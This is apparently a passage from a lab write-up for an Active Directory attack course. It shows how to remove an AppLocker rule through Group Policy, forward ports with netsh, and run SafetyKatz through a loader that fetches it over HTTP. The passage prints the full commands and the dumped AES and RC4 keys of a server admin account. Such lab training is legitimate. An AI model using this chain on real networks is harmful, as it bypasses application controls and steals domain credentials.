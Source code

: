 

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

In the new window, Expand Policies -> Windows Settings -> Security Settings -> Application Control Policies -> Applocker and Edit it

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Delete the exactuable rule

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Now, we can either wait for the Group Policy refresh or force an update on the dcorp-adminsrv machine. Let's go for the later using the following commands as studentx:

```powershell
winrs -r:dcorp-adminsrv cmd
gpupdate /force
```

Now, let's copy Loader on the machine, add portfowarding:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe
```

```powershell
winrs -r:dcorp-adminsrv cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67
```

and execute SafetyKatz

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"
```

```powershell
Authentication Id : 0 ; 11523662 (00000000:00afd64e)
Session           : NewCredentials from 0
User Name         : student867
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 5/9/2025 2:00:54 PM
SID               : S-1-5-21-719815819-3726368948-3917688648-20607

         * Username : srvadmin
         * Domain   : dcorp
         * Password : (null)
         * Key List :
           aes256_hmac       01e519027474feb980e17dadb7230f81ccc3114a49f964732e0c225f91de91a6
           aes128_hmac       1078167b969a70401927d9fb1faf4e10
           rc4_hmac_nt       31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old      31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_md4           31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_nt_exp   31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old_exp  31d6cfe0d16ae931b73c59d7e0c089c0

Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1115

         * Username : srvadmin
```